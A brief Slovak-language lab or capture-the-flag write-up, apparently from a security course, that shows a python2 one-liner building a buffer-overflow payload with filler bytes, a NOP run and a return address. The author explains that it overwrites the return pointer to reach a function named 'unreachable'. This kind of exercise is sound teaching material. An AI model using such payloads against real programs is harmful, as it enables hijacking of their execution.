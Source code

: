  Na vykonanie útoku som použil python2 nasledovne:

 ```bash 
 python2 -c 'print "\x41" * 28 + "\x42" * 16 +
"\x43" * 27 + "\x44" * 10 + "\x90" * 16 + "\x50\x65\x55\x56"' > payload_1_32
 ```

 Postupne som napĺňal všetky polia a potom som pridal 16xNOP aby som sa dostal k return pointeru. Výstup som uložil do súboru a súbor som nahral na server pomocou scp

 ![](image-7.png)

 V modrom je prepísaný return pointer na funkciu unreachable

![](image-9.png)

